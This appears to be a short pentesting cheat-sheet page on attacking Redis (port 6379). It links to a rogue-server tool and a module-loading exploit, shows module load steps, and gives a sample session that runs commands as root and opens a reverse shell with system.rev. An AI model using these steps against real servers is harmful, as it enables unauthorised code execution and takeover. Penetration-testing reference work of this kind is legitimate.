 ```yaml
---
layout: default
title: REDIS Pentesting
nav_order: 2
has_children: false
parent: Services Pentesting
grand_parent: Pentesting
---
```


## REDIS Pentesting (6379) :

### Interract :
```bash
redis-cli -h <IP>
```

### RCE :

#### Interractive Shell 
The following tool might help to get an access to the instance :  [https://github.com/n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)


#### Load Redis Module

The following link provide information regarding the redis module loading : [https://github.com/n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)

**Load the module** has to be loaded so a write folder is needed. 

**Load the uploaded module** at runtime with `MODULE LOAD /path/to/mymodule.so`

**List loaded modules** to check it was correctly loaded: `MODULE LIST`

**Execute** **commands**:

```bash
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> system.exec "whoami"
"root\n"
127.0.0.1:6379> system.rev 127.0.0.1 9999
```

**Unload the module** whenever you want: `MODULE UNLOAD mymodule`